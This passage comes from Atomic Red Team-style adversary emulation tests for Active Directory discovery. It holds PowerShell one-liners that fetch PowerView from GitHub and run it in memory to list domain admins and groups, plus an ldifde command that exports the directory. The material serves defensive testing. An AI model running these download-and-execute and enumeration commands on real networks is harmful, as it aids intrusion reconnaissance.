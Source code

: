 ```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainGroupMember "Domain Admins"
```

<br/>
<br/>

## Atomic Test #13 - Get-DomainGroup with PowerView

Utilizing PowerView, run Get-DomainGroup to identify the domain groups. Upon execution, Groups within the domain will be listed.

**Supported Platforms:** Windows

**auto_generated_guid:** 5a8a181c-2c8e-478d-a943-549305a01230

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainGroup -verbose
```

<br/>
<br/>

## Atomic Test #14 - Active Directory Enumeration with LDIFDE

Output information from Active Directory to a specified file. [Ldifde](<https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc731033(v=ws.11)>) is a CLI tool for creating, modifying and deleting directory objects.
The test is derived from the CISA Report on Voly Typhoon. Reference: https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF

**Supported Platforms:** Windows

**auto_generated_guid:** 22cf8cb9-adb1-4e8c-80ca-7c723dfc8784

#### Inputs:

| Name        | Description                              | Type   | Default Value           |
| ----------- | ---------------------------------------- | ------ | ----------------------- |
| output_path | Path to the file that ldifde will output | path   | C:&#92;Windows&#92;temp |
| output_file | The filename to be created by ldifde     | string | atomic_ldifde.txt       |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
ldifde.exe -f #{output_path}\#{output_file} -p subtree
```
